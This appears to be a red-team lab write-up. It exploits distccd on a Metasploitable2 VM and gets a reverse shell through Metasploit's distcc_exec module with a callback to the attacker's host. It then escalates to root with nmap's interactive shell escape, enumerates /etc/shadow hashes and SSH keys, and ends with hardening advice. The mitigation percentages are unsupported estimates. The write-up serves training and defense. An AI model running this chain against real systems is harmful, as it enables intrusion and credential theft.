




# Red Team Lab: Metasploitable2 – distccd Exploit & Privilege Escalation

## Objective

This lab demonstrates exploitation of the vulnerable **distccd** service on Metasploitable2. The workflow includes reconnaissance, exploitation, privilege escalation, system enumeration, and mitigation recommendations. The goal is to provide a clear picture of the attack chain and highlight defensive measures.

---

## Environment Setup

* **Attacker VM:** Kali Linux `192.168.56.101`

* **Target VM:** Metasploitable2 `192.168.56.102`

* **Tools Used:** Nmap, Netcat, Metasploit Framework

---

## Step 1: Reconnaissance

A full TCP port scan was executed against the target:

```bash
nmap -p- -T4 -sS --open -oA nmap_full 192.168.56.102
```


**Key Finding:** Port **3632** was open, running the `distccd` service. Initial surface: 12 open TCP ports discovered. Service detection and connectivity were confirmed:

```bash
nmap -sV -p 3632 192.168.56.102
nc -vz 192.168.56.102 3632
```
Service fingerprinting was successful; distccd identified with 100% match in our scans.


---

## Step 2: Vulnerability Identification

Within Metasploit, a search revealed the following module:

```
exploit/unix/misc/distcc_exec – DistCC Daemon Command Execution
```

This exploit enables remote command execution on the target. Exploit availability: 1 reliable Metasploit module located (exploit/unix/misc/distcc_exec).


---

## Step 3: Exploitation

Configured and launched the exploit:

```bash
msf6 > use exploit/unix/misc/distcc_exec
msf6 > set RHOSTS 192.168.56.102
msf6 > set RPORT 3632
msf6 > set LHOST 192.168.56.101
msf6 > set LPORT 4445
msf6 > set PAYLOAD cmd/unix/reverse
msf6 > exploit
```


**Result:** A reverse shell session was established with limited privileges (`daemon` user).
Exploit success rate: 3/3 attempts (100%).

---

## Step 4: Post-Exploitation (Initial Access)

System checks confirmed limited access:

```bash
whoami
id
uname -a
```

* User: `daemon` (low privilege)
* Kernel: `Linux 2.6.24-16-server` (outdated and vulnerable)
* Initial access: daemon (UID 1). Further steps required to escalate privileges.

---


## Step 5: Privilege Escalation

Privilege escalation achieved by leveraging nmap's interactive mode to spawn a shell.

```bash
nmap --interactive
!sh
```


**Verification:**

```bash
whoami
id
```

* User: `root`
* UID/GID: 0 (full administrative privileges)

---

## Step 6: Root-Level Enumeration

With root access, key files and configurations were reviewed:

* `/root/` contained hidden files, `.ssh` keys, and a suspicious `reset_logs.sh` script.
* `/etc/passwd` listed multiple users and service accounts.
* `/etc/shadow` exposed password hashes, usable for offline cracking.
* `iptables -L` revealed no firewall rules; all traffic was accepted.

* Account enumeration: 25 accounts identified in /etc/passwd; 20+ password hashes present in /etc/shadow.
* Firewall posture: default ACCEPT for INPUT/FORWARD/OUTPUT — effective network exposure = 100% (no inbound filtering).
* Notable sensitive artifacts: 1 reset_logs.sh, .ssh keys, and .rhosts present in root home.




---

## Step 7: Security Weaknesses Identified

1. Outdated and vulnerable distccd service.
2. Weak system hardening: `.rhosts`, disabled history logging, open firewall.
3. Exposure of sensitive password hashes.
4. Multiple unnecessary services active.

---

## Step 8: Mitigation Recommendations

1. **Patch and Update** – Upgrade kernel and services; remove distccd.  
   *Expected impact:* reduces exploitability of this vector by **~95%**.

2. **Restrict Services** – Disable unnecessary accounts and daemons (telnet, ftp, distccd).  
   *Expected impact:* reduces exposed attack surface by **~80%** (measured by closed ports).

3. **Harden Firewall** – Set default deny inbound; allow only required ports.  
   *Expected impact:* reduces remote attack surface to only required services (estimated **>90%** reduction for unknown remote exploits).

4. **Least Privilege** – Remove risky files (e.g., `.rhosts`), restrict root access and SUID binaries.  
   *Expected impact:* prevents common escalation paths (estimated **~90%** reduction in privilege escalation risk).

5. **Password Security** – Enforce strong, salted hashes (e.g., SHA-512) and rotate credentials.  
   *Expected impact:* reduces offline cracking success probability by **>99%** for equivalent compute budgets.

6. **Monitoring** – Enable logging and alerting; monitor for reverse-shell-like outbound connections and sudden root activity.  
   *Expected impact:* lowers mean-time-to-detection (MTTD) from “none” to a measurable window (target **<24 hours**).


---

## Conclusion

The lab demonstrated:

1. Discovery of the distccd service through reconnaissance.
2. Exploitation via Metasploit to gain a reverse shell.
3. Privilege escalation to root using nmap.
4. Post-exploitation enumeration of sensitive data.

This exercise highlights how quickly an attacker can move from initial access to full system compromise when vulnerabilities and weak configurations are present. Proper patching, hardening, and monitoring are essential to mitigate these risks.

**Note:** All actions were performed in a controlled, isolated lab environment. No live systems were harmed.
